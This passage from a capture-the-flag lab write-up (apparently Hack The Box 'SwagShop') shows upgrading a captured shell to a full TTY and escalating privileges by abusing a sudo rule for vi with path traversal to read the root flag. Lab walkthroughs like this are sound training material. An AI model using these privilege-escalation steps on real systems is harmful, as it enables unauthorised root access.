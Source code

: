### Shell Upgrade

Now that I have a shell, I’ll upgrade it to a full tty which will allow me to run commands like `su` and `vi`, as well as tab completion and arrow keys. I don’t show this on every writeup, but I certainly do it every time I get a shell on Linux.

It’s difficult to show because the terminal gets cleared, but the steps are:
1. `python -c 'import pty;pty.spawn("/bin/bash")'`. `python3` works as well.
2. Ctrl-z to background shell. At local prompt, `stty raw -echo`.
3. `fg` to bring shell back to front.
4. `reset` to reinitialize the terminal. If prompted for Terminal type, enter `screen`.
5. In reset shell, `export TERM=screen`.

I can also use `stty -a` on my local shell to see the rows and columns. Then I can set it for the remote shell by running `stty rows [#rows] columns [#columns]`. This will allow things like `vi` or `less` to use the full screen.

### Enumeration

`sudo -l` shows I can run `sudo` with no password on `vi` in the web dir:

```

www-data@swagshop:/home/haris$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*

```

### Read Flag

The fastest path to the flag is just to open it with `vi`. Based on the `sudo` output above, I’ll run:

```

www-data@swagshop:/$ sudo /usr/bin/vi /var/www/html/../../../root/root.txt

```

```

c2b087d6...

   ___ ___
 /| |/|\| |\
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
~
~
~
~
~
~
~
~
~
~
~
```
